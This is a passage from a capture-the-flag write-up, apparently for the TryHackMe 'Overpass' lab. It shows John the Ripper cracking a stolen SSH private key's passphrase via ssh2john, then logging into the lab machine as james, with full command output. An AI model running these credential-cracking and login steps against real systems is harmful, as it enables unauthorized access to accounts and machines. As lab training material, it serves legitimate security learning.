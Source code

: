 Then try to generate keys. We can't because the private key is password encrypted.

We can crack this with John The Ripper.
First, we need to generate a hash for John.
We can use `ssh2john`.

```shell
kali@kali:~/Desktop/repos/ctf/try-hack-me/overpass$ python3 /usr/share/john/ssh2john.py overpass_rsa.key > overpass_rsa.hash
kali@kali:~/Desktop/repos/ctf/try-hack-me/overpass$
```

After generating a hash, we can run it through `john`.

```shell
kali@kali:~/Desktop/repos/ctf/try-hack-me/overpass$ sudo john overpass_rsa.hash  --format=SSH
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
james13          (overpass_rsa.key)
1g 0:00:00:08  3/3 0.1199g/s 632856p/s 632856c/s 632856C/s pjbudo..sexasting
Session aborted
kali@kali:~/Desktop/repos/ctf/try-hack-me/overpass$
```

## SSH (User flag)

We can then connect to machine via SSH. The user `james` lets us connect; with password `james13`.

```shell
kali@kali:~/Desktop/repos/ctf/try-hack-me/overpass$ ssh james@10.10.211.116 -i overpass_rsa.key
load pubkey "overpass_rsa.key": invalid format
Enter passphrase for key 'overpass_rsa.key':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct  2 19:33:01 UTC 2020

  System load:  0.0                Processes:           88
  Usage of /:   22.2% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.211.116
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ ls -lah
total 48K
drwxr-xr-x 6 james james 4.0K Jun 27 16:07 .
```